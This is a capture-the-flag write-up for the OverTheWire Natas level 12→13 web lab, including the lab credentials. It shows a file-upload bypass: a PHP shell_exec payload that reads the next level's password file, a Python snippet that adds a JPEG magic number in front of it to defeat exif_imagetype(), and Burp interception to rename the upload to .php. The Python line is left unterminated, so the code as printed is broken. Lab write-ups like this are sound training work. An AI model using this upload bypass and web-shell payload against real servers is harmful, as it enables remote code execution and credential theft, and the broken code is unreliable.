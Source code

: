 # Natas Level 12 --> Level 13

**Username:** natas13

**Password:** jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY  

**URL:**      http://natas13.natas.labs.overthewire.org

## Solution
* Open inspect, there are button to upload an image (1kb) and button send us to a page contain the source code.
* If you read the source code it is like the last one, generate random path with extention taken from requests to uploaded file, then put it in upload folder.
* Write php script echo the password from pass folder
```php
<?php
  echo shell_exec("cat /etc/natas_webpass/natas14");
?>
```
* Now if you upload it, he will say only images are allowed, from source code you know that they check file type using exif_imagetype() php function which reads the magic number for the file.
* So first write JPEG magic number then your php script (to make magic number interprete as bytes we use pyhon3)
```py
  file = open('image', 'wb')
  file.write(b'\xFF\xD8\xFF\xE0' + b'<? echo shell_exec("cat /etc/natas_webpass/natas14"); 
  file.close()
```
* Upload the script then intercept requests with burpSuite to change filename extension to php to execute script onclick
* You got the password!!

## Natas14 Password
> Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
